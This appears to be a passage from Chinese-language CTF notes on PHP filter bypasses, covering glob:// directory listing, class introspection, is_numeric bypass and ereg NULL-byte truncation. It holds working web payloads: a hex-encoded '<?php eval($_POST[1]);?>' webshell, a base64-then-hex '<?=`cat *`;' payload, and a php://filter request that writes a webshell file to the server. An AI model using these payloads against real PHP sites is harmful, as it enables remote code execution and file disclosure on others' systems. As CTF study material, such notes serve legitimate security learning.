 可以绕过看目录

```
<?php
$a = new DirectoryIterator("glob:///*");
foreach($a as $f){
    echo($f->__toString().'<br>');
}
```

### 7. 打印类的属性

```
https://segmentfault.com/q/1010000000770535
```

已知函数:http://php.net/manual/zh/function.get-object-vars.php
http://php.net/manual/zh/function.get-class-methods.php
http://php.net/manual/zh/function.get-class-vars.php

也可以使用已有的内置函数

```
可以使用 ReflectionClass 类,打印出类的结构。
```

### 8. is_numeric绕过

#### 0x01 16进制

```
在php5的环境中，是可以识别十六进制的，也就是说，如果传入v2=0x3c3f706870206576616c28245f504f53545b315d293b3f3e(<?php eval($_POST[1]);?>的十六进制)也是可以识别为数字的。
var_dump(is_numeric("0x3c3f706870206576616c28245f504f53545b315d293b3f3e"));
下返回true
题目经过substr($v2,2)得到0x后面的十六进制3c3f706870206576616c28245f504f53545b315d293b3f3e，因为hex2bin如果参数带0x会报错。
```

#### 0x02代码base64编码后再转为十六进制为全数字

```
$a='<?=cat *;';
$b=base64_encode($a); // PD89YGNhdCAqYDs=
$c=bin2hex($b); //等号在base64中只是起到填充的作用，不影响具体的数据内容，直接用去掉，=和带着=的base64解码出来的内容是相同的。
```

```
v2=115044383959474e6864434171594473&v3=php://filter/write=convert.base64-
decode/resource=2.php
POST
v1=hex2bin
```

### 9 ereg函数过滤

```
ereg()函数用指定的模式搜索一个字符串中指定的字符串,如果匹配成功返回true,否则,则返回false。搜索字 母的字符是大小写敏感的。 ereg函数存在NULL截断漏洞，导致了正则过滤被绕过,所以可以使用%00截断正则匹配
```
